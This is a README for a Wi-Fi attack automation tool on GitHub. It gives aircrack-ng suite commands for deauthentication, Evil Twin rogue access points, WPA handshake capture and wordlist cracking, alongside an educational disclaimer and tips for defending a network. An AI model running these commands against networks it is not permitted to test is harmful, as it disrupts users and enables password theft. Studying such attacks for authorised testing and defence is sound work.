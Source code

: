 # https://github.com/Danyalkhattak/wifi-attack-tool

🔥 Wi-Fi Attack Automation Tool (Kali Linux & Windows PowerShell) 🔥​
This tool allows you to automate Wi-Fi attacks such as Deauthentication, Evil Twin, and WPA Handshake Capture in Kali Linux, and enables Wi-Fi scanning and learning features in Windows PowerShell. Perfect for cybersecurity students and professionals!

🚨 Disclaimer: This tool is for educational purposes only. Always get permission from network owners before conducting any attacks.

📜 Features​
🔥 Kali Linux Version:​

    🕵️ Network Scanning: Identify nearby Wi-Fi networks.
    🚫 Deauthentication Attack: Disconnect all clients from a target network.
    💀 Evil Twin Attack: Set up a rogue Wi-Fi access point.
    📡 WPA Handshake Capture: Capture handshakes for offline cracking.
    🛡️ Defense Tips: Learn how to defend your network against attacks.

💻 Windows PowerShell Version:​

    🕵️ Wi-Fi Scanning: View available Wi-Fi networks.
    🛡️ Defense Tips: Learn about Wi-Fi security best practices.
    📚 Educational Features: Gain insights into different types of Wi-Fi attacks and how they work.

🎯 How to Use​
Kali Linux Setup​
1. Install Dependencies​
Ensure you have all necessary tools installed:

sudo apt-get install aircrack-ng hostapd dnsmasq

2. Clone the Repo​
git clone GitHub - Danyalkhattak/wifi-attack-tool: Wi-Fi Attack Automation Tool for Kali Linux and Windows PowerShell automates Wi-Fi attacks like Deauthentication, Evil Twin, and WPA Handshake Capture. Ideal for cybersecurity enthusiasts to learn and practice network penetration testing and Wi-Fi security.
cd wifi-attack-tool

3. Install Python Dependencies​
pip install -r requirements.txt

4. Run the Tool​
sudo python3 main.py

Windows PowerShell Setup​
1. Clone the Repo​
For Windows PowerShell, you can clone the repository by running:

git clone GitHub - Danyalkhattak/wifi-attack-tool: Wi-Fi Attack Automation Tool for Kali Linux and Windows PowerShell automates Wi-Fi attacks like Deauthentication, Evil Twin, and WPA Handshake Capture. Ideal for cybersecurity enthusiasts to learn and practice network penetration testing and Wi-Fi security.
cd wifi-attack-tool

2. Install Dependencies​
You may need to install some PowerShell modules:

Install-Module -Name WiFiProfileManagement

You can also use built-in cmdlets for simple network scanning.

3. Run the Tool​
.\main.ps1

📡 Wi-Fi Scanning​
Kali Linux:​

    Run the network scanning module to view nearby Wi-Fi networks:

sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon

Windows PowerShell:​

    Scan for available Wi-Fi networks:

netsh wlan show networks

🚀 Attacks (Kali Linux)​

    Deauthentication Attack:
        Disconnect clients from a target network:
        sudo airmon-ng start wlan0 <channel>
        sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
    Evil Twin Attack:
        Create a fake access point:
        sudo hostapd -B /etc/hostapd.conf
        sudo dnsmasq -C /etc/dnsmasq.conf
    WPA Handshake Capture:
        Capture a WPA handshake:
        sudo airodump-ng --bssid <BSSID> --channel <channel> -w <output> wlan0mon
    Crack WPA Handshake:
        Crack the captured WPA handshake using a wordlist:
        sudo aircrack-ng <handshake.cap> -w /usr/share/wordlists/rockyou.txt

🛡️ Defense Measures​
Linux & Windows:​
After simulating attacks, learn how to protect your network:

    Use WPA3 encryption for enhanced security.
    Disable WPS (Wi-Fi Protected Setup).
    Enable 802.11w to protect management frames.
    Set a strong and unique Wi-Fi password.
    Regularly monitor your network for suspicious devices.

🎯 Windows PowerShell Features​
In Windows PowerShell, this tool provides insights and educational examples on common Wi-Fi attacks. It includes:

    Wi-Fi Scanning: View the available Wi-Fi networks around you.
    Attack Simulations: Learn how attacks like Deauthentication and Evil Twin work (educational only).
    Defense Tips: Understand how to protect your network against common attacks.
    check : GitHub - Danyalkhattak/wifi-attack-tool: Wi-Fi Attack Automation Tool for Kali Linux and Windows PowerShell automates Wi-Fi attacks like Deauthentication, Evil Twin, and WPA Handshake Capture. Ideal for cybersecurity enthusiasts to learn and practice network penetration testing and Wi-Fi security.
